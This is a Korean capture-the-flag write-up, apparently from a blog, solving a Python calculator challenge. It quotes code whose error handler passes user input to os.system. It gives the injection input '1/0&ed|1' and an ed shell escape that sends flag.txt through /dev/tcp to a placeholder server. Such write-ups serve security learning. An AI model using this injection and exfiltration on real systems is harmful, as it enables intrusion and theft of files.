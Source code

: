```py
    exec(script)
```

```py
def raise_error(e):
    if type(e) == KeyboardInterrupt:
        print("\nif you want to quit this calculator, type 'exit'\n")
    else:
        if type(e) == EOFError:
            e = 'EOFError'
            error_msg = 'Please do not press CTRL+D'
        else:
            error_msg = f'{expr} is invalid expression!'
        tmp_err_logs = '.'+binascii.hexlify(os.urandom(8)).decode()
        cmd = f'''
            echo "*** {str(e)} ***" > {tmp_err_logs}
            echo {error_msg} >> {tmp_err_logs}
            cat {tmp_err_logs}
            rm {tmp_err_logs}
        '''
        os.system(cmd)
    return
```

exec로는 필터링으로 인해 사실 할 수 있는 게 많이 없고, 결국에는 os.system을 통해 command를 실행시켜야 한다.

그러면, 우리가 할 수 있는 건 raise를 발생시켜서 에러 로그를 저장했다가 출력해주는 곳에서 command를 실행시키는 것이 가장 합리적이다.

이는 division by zero exception을 통해 raise 시킬 수 있고, `1/0&ed|1`라는 입력을 통해 division by zero와 동시에 command injection을 발생시킬 수 있다.

그러면 ed라는 command가 실행되는데, 이는 vim과 똑같이 command를 실행시킬 수 있다.

```bash
!/bin/bash
cat flag.txt > /dev/tcp/{server}/{port}
```

그럼 위와 같은 형태로 데이터를 tcp로 server에 보내서 flag를 가져오는 command를 실행시킬 수 있다.


### 블로그 포스트 작성자의 추가적인 코멘트

파이썬의 Exception handling을 이용한 command injection 문제입니다. whitelist 에서 command injection에 주로 사용되는 `&`, `|` 문자를 허용한다는 점과, Dockerfile에서 `ed` 명령어를 설치하는 두 개의 단서를 찾는다면 쉽게 풀 수 있는 문제였습니다. 

이러한 command injection bypass 유형의 문제는 [hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection) 사이트에 잘 정리되어있으니 살펴보시는 것을 추천드립니다.


---

## safe_calculator

**출제자 책정 난이도**: easy
